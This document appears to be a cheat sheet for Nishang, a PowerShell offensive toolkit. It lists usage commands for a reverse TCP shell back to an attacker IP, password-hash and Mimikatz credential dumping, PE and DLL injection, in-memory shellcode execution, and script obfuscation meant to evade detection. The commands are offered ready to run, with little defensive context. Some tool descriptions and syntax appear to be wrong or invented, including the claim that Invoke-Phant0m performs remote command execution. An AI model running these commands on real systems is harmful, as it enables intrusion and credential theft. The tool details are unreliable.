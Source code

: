 Nishang is a collection of PowerShell scripts and modules designed for penetration testing and exploitation, primarily in Windows environments. It includes various scripts for tasks like payload generation, command execution, and data exfiltration.

### **Nishang Commands and Options**

1. **`Invoke-PowerShellTcp`** – PowerShell TCP Reverse Shell

   - **Description:** Creates a reverse TCP shell using PowerShell.
   - **Command:**
     ```powershell
     .\Invoke-PowerShellTcp.ps1 -Reverse -IPAddress <attacker_ip> -Port <attacker_port>
     ```
   - **Example:**
     ```powershell
     .\Invoke-PowerShellTcp.ps1 -Reverse -IPAddress 192.168.1.100 -Port 4444
     ```
   - **Explanation:** Connects back to the attacker's IP and port, providing a reverse shell.

2. **`Invoke-PowerDump`** – PowerShell Password Dumping

   - **Description:** Dumps password hashes from a Windows system.
   - **Command:**
     ```powershell
     .\Invoke-PowerDump.ps1 -All
     ```
   - **Example:**
     ```powershell
     .\Invoke-PowerDump.ps1 -All
     ```
   - **Explanation:** Retrieves all available password hashes from the system.

3. **`Invoke-Phant0m`** – Remote Command Execution via PowerShell

   - **Description:** Executes commands on a remote system using PowerShell.
   - **Command:**
     ```powershell
     .\Invoke-Phant0m.ps1 -Command "ipconfig"
     ```
   - **Example:**
     ```powershell
     .\Invoke-Phant0m.ps1 -Command "net user"
     ```
   - **Explanation:** Executes `ipconfig` or `net user` on the remote system.

4. **`Invoke-Obfuscation`** – PowerShell Script Obfuscation

   - **Description:** Obfuscates PowerShell scripts to evade detection.
   - **Command:**
     ```powershell
     .\Invoke-Obfuscation.ps1 -ScriptPath .\payload.ps1
     ```
   - **Example:**
     ```powershell
     .\Invoke-Obfuscation.ps1 -ScriptPath .\malicious.ps1
     ```
   - **Explanation:** Obfuscates the PowerShell script `malicious.ps1`.

5. **`Invoke-ReflectivePEInjection`** – Reflective PE Injection

   - **Description:** Injects a PE (Portable Executable) file into a target process.
   - **Command:**
     ```powershell
     .\Invoke-ReflectivePEInjection.ps1 -PEPath .\payload.exe -ProcessId <pid>
     ```
   - **Example:**
     ```powershell
     .\Invoke-ReflectivePEInjection.ps1 -PEPath .\payload.exe -ProcessId 1234
     ```
   - **Explanation:** Injects `payload.exe` into a process with ID `1234`.

6. **`Invoke-DLLInjection`** – DLL Injection

   - **Description:** Injects a DLL into a process.
   - **Command:**
     ```powershell
     .\Invoke-DLLInjection.ps1 -DLLPath .\payload.dll -ProcessId <pid>
     ```
   - **Example:**
     ```powershell
     .\Invoke-DLLInjection.ps1 -DLLPath .\payload.dll -ProcessId 5678
     ```
   - **Explanation:** Injects `payload.dll` into a process with ID `5678`.

7. **`Invoke-Mimikatz`** – Mimikatz Integration

   - **Description:** Uses Mimikatz to extract credentials and other sensitive information.
   - **Command:**
     ```powershell
     .\Invoke-Mimikatz.ps1 -Command 'privilege::debug'
     ```
   - **Example:**
     ```powershell
     .\Invoke-Mimikatz.ps1 -Command 'sekurlsa::logonpasswords'
     ```
   - **Explanation:** Extracts credentials and other sensitive information.

8. **`Invoke-GetUserSPNs`** – Retrieves User Service Principal Names (SPNs)

   - **Description:** Retrieves Service Principal Names (SPNs) from the target.
   - **Command:**
     ```powershell
     .\Invoke-GetUserSPNs.ps1 -Domain <domain>
     ```
   - **Example:**
     ```powershell
     .\Invoke-GetUserSPNs.ps1 -Domain example.com
     ```
   - **Explanation:** Retrieves SPNs from the specified domain.

9. **`Invoke-Shellcode`** – Shellcode Execution

   - **Description:** Executes shellcode in memory.
   - **Command:**
     ```powershell
     .\Invoke-Shellcode.ps1 -Shellcode <byte_array>
     ```
   - **Example:**
     ```powershell
     .\Invoke-Shellcode.ps1 -Shellcode [byte[]](0x90, 0x90, 0x90, 0x90)
     ```
   - **Explanation:** Executes shellcode in memory.

10. **`Invoke-CredentialDumping`** – Credential Dumping

    - **Description:** Dumps credentials from the target system.
    - **Command:**
      ```powershell
      .\Invoke-CredentialDumping.ps1 -All
      ```
    - **Example:**
      ```powershell
      .\Invoke-CredentialDumping.ps1 -Domain example.com
      ```
    - **Explanation:** Dumps credentials, including usernames and passwords.

### **Summary of Nishang Commands**

| **Script/Module**        | **Command Example**                                              | **Description**                                   |
|--------------------------|------------------------------------------------------------------|---------------------------------------------------|
| `Invoke-PowerShellTcp`   | `.\Invoke-PowerShellTcp.ps1 -Reverse -IPAddress 192.168.1.100 -Port 4444` | Creates a reverse TCP shell                      |
| `Invoke-PowerDump`       | `.\Invoke-PowerDump.ps1 -All`                                    | Dumps password hashes from the system            |
| `Invoke-Phant0m`         | `.\Invoke-Phant0m.ps1 -Command "ipconfig"`                        | Executes remote commands via PowerShell          |
| `Invoke-Obfuscation`     | `.\Invoke-Obfuscation.ps1 -ScriptPath .\payload.ps1`             | Obfuscates PowerShell scripts                     |
| `Invoke-ReflectivePEInjection` | `.\Invoke-ReflectivePEInjection.ps1 -PEPath .\payload.exe -ProcessId 1234` | Injects a PE file into a process                 |
| `Invoke-DLLInjection`    | `.\Invoke-DLLInjection.ps1 -DLLPath .\payload.dll -ProcessId 5678` | Injects a DLL into a process                     |
| `Invoke-Mimikatz`        | `.\Invoke-Mimikatz.ps1 -Command 'sekurlsa::logonpasswords'`       | Extracts credentials using Mimikatz              |
| `Invoke-GetUserSPNs`     | `.\Invoke-GetUserSPNs.ps1 -Domain example.com`                    | Retrieves SPNs from the specified domain         |
| `Invoke-Shellcode`       | `.\Invoke-Shellcode.ps1 -Shellcode [byte[]](0x90, 0x90, 0x90, 0x90)` | Executes shellcode in memory                     |
| `Invoke-CredentialDumping` | `.\Invoke-CredentialDumping.ps1 -All`                            | Dumps credentials from the target system         |

Nishang provides a wide range of PowerShell-based tools for various penetration testing and exploitation tasks, offering versatility and ease of use for attackers and security professionals.